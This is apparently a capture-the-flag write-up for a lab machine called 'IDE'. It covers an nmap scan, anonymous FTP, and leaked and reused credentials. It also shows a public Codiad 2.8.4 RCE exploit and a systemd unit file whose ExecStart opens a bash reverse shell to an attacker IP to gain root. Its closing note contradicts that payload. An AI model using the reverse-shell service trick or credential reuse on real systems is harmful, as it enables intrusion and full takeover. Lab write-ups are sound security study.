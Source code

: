 # IDE
### Users
```
john
drac
```
### Credentials
```
Codiad Web app:
john:password

System:
drac:Th3dRaCULa1sR3aL
/home/drac/.bash_history:mysql -u drac -p 'Th3dRaCULa1sR3aL' --> From .bash_history
- Credentials reused for system user
```
## Recon
### Nmap Scan
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.105.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Quick Look:**
FTP:
* Anonymous login allowed

HTTP:
* Apache default page

HTTP 62337:
* Codiad 2.8.4
### Web Recon
**Port 62337**
Service running on port 62337 was vulnerable to an Authenticated Remote Code Execution vulnerability which I was able 
to leverage in my favour to get a reverse shell into the machine.
https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit --> More Here

## Foothold / Privilege Escalation
The server had an FTP service running and I was able to login using anonymous credentials.
Inside the developers tried to hide a file under the “…” directory and called it “-”. So when I downloaded and changed the name to message, it read a message from the admins about the credentials for the user john. It stated the password was reset to the default password which was very easily guessable since it was “password”. The credentials in question were for the service running on port 62337 which was Codiad v2.8.4, this version was vulnerable to an Authenticated Remote Command Execution vulnerability.
The exploit is related to how Codiad processes file uploads and the lack of proper input validation. The core of the issue is the unsafe inclusion of user-provided files.
I used the Codiad RCE exploit to get an initial foothold in the machine.
### Privilege Escalation
Looking through the machine I found another user drac, and in his home directory he did not clean up his .bash_history file so I was able to read through it and found a MySQL database password with his username.
I tested for credential reusage and was successful, I now have a real user compromised.
**Privilege Escalation via .service files**
As the user drac I had sudo permissions on the vsftpd service, more importantly I could restart it with sudo.
So with this information I could try and change the vsftpd.service file to execute a reverse shell when I restart it.
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<LISTENER_PORT 0>&1'
ExecReload=/bin/kill -HUP $MAINPD
ExecStartPre=-/bin/mkdir -p /var/run/vsftp/empty

[Install]
WantedBy=multi-user.target
```
If you restart it now you will get an error, but just execute what the error tells you and restart vsftpd again but don't forget to setup your listener otherwise the shell won't work and you get root.
## Notes
**Privilege Escalation via editing .service files**\
Using .service files an attacker if they have permissions, modify files and execute unwanted commands. Like in this case I modified the vsftpd.service file in a way that when the ftp service starts it will give my current user sudo permissions for the whole system. So I could just sudo su and get root.
